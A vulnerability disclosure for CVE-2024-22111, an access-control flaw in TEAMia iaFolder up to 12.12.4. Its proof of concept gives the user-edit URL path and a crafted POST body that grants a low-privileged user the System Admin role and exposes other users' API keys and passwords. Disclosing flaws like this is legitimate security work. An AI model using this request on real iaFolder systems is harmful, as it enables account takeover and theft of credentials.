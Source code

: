 ## CVE-2024-22111

### Description
> Incorrect Access Controls in the admin panel in TEAMia iaFolder through 12.12.4 allows an authenticated, low-privileged attacker to change the password of an arbitrary user account, add a role to an arbitrary user account, or discover API keys.

### Vulnerability Type
Vertical Access Control Elevation

### Vendor of Product
iaFolder

### Affected Product Code Base
iaFolders - Versions up to/including 12.12.4

### Exploitation
To exploit this vulnerability, an authenticated user can simply visit the administrative edit users page, and edit any account they wish by putting in a valid user ID.

### PoC

> To leak API keys or change the password of an arbitrary account, simple go to the edit page of the ID you want to change. 

`/Users/Edit/1`

> To modify your account to a System Administrator, simply modify your post request when editing your account with the following:

`&CurrentRoles%5B2%5D.Id=2&CurrentRoles%5B2%5D.DisplayName=System+Admin&CurrentRoles%5B2%5D.Enabled=true`

```
POST /Users/Edit/3 HTTP/2
[...]

[...]&CurrentRoles%5B2%5D.Id=2&CurrentRoles%5B2%5D.DisplayName=System+Admin&CurrentRoles%5B2%5D.Enabled=true
```

No checks were in place for this version to check if you can actually add roles to your account.